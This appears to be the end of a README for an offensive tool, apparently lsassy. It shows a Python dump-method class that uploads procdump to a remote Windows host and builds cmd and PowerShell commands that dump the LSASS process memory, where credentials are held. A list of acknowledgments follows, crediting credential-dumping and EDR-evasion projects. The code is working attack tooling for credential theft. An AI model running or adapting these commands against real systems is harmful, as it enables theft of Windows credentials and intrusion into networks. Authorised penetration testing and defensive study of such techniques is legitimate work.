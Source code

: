 ```python

    def prepare(self, options):
        """
        Prepare method is overloaded so that we are able to
        - check if mandatory parameters are provided
        - upload procdump on the remote host.
        All this can be done using prepare_dependencies method from our Dependency object
        """
        return self.prepare_dependencies(options, [self.procdump])

    def clean(self):
        """
        Clean method is overloaded so that we are able to delete our dependency if it was uploaded
        The clean_dependencies method will do this for us.
        """
        self.clean_dependencies([self.procdump])

    def get_commands(self, dump_path=None, dump_name=None, no_powershell=False):
        """
        get_commands method is overloaded as it is mandatory.
        Two different ways of dumping lsass with cmd.exe and powershell are provided and returned.
        The get_remote_path method of our Dependency object is used to get the correct remote path 
        of procdump on our target.
        """
        
        cmd_command = """for /f "tokens=2 delims= " %J in ('"tasklist /fi "Imagename eq lsass.exe" | find "lsass""') do {} -accepteula -o -ma %J {}{}""".format(
            self.procdump.get_remote_path(),
            self.dump_path, self.dump_name
        )
        pwsh_command = """{} -accepteula -o -ma (Get-Process lsass).Id {}{}""".format(
            self.procdump.get_remote_path(),
            self.dump_path, self.dump_name
        )
        return {
            "cmd": cmd_command,
            "pwsh": pwsh_command
        }
```

You can check dummy class for more comments and/or informations.

## Acknowledgments

![image](https://user-images.githubusercontent.com/11051803/127148091-6b52f38a-de64-4114-b1ef-465e65deacfb.png)

* [Kodoque](https://github.com/Kodoque1) for lsassy name
* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [SkelSec](http://twitter.com/skelsec) for Pypykatz, but also for his patience and help
* [mpgn](https://twitter.com/mpgn_x64) for his help and ideas
* [Cn33liz](https://twitter.com/Cneelis) for [Dumpert](https://github.com/outflanknl/Dumpert)
* [itm4n](https://twitter.com/itm4n) for [PPLDump](https://github.com/itm4n/PPLdump)
* [Ccob](https://twitter.com/_EthicalChaos_) for [MirrorDump](https://github.com/CCob/MirrorDump)
* [Matt Graeber](https://twitter.com/mattifestation) for [WER Technique](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1)
* [MrUn1k0d3r](https://twitter.com/MrUn1k0d3r) for [SMB Service Modification technique](https://raw.githubusercontent.com/Mr-Un1k0d3r/SCShell/master/scshell.py)
* [th3m4ks](https://twitter.com/th3m4ks) and [Qazeer](https://twitter.com/_Qazeer) for [EDRSandBlast](https://github.com/wavestone-cdt/EDRSandblast)
* [s4ntiago_p](https://twitter.com/s4ntiago_p) for [nanodump](https://github.com/helpsystems/nanodump)
* [0gtweet](https://twitter.com/0gtweet) for [Rdrleakdiag technique](https://twitter.com/0gtweet/status/1299071304805560321)